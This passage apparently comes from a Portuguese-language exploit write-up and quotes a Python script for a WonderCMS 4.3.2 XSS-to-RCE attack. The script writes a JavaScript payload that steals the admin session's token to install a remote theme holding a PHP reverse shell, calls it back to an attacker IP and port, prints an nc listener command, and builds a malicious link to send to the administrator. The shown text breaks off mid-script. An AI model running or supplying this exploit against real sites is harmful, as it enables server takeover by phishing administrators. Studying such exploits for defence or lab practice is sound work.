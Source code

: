     3. Arquivo do exploit original:
        
        ```bash
        # Author: prodigiousMind
        # Exploit: Wondercms 4.3.2 XSS to RCE
        
        import sys
        import requests
        import os
        import bs4
        
        if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
        else:
          data = '''
        var url = "'''+str(sys.argv[1])+'''";
        if (url.endsWith("/")) {
         url = url.slice(0, -1);
        }
        var urlWithoutLog = url.split("/").slice(0, -1).join("/");
        var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
        var token = document.querySelectorAll('[name="token"]')[0].value;
        var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
        var xhr3 = new XMLHttpRequest();
        xhr3.withCredentials = true;
        xhr3.open("GET", urlRev);
        xhr3.send();
        xhr3.onload = function() {
         if (xhr3.status == 200) {
           var xhr4 = new XMLHttpRequest();
           xhr4.withCredentials = true;
           xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
           xhr4.send();
           xhr4.onload = function() {
             if (xhr4.status == 200) {
               var ip = "'''+str(sys.argv[2])+'''";
               var port = "'''+str(sys.argv[3])+'''";
               var xhr5 = new XMLHttpRequest();
               xhr5.withCredentials = true;
               xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
               xhr5.send();
               
             }
           };
         }
        };
        '''
          try:
            open("xss.js","w").write(data)
            print("[+] xss.js is created")
            print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
            print("----------------------------\n")
            XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
            XSSlink = XSSlink.strip(" ")
            print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
            print("----------------------------\n")
        
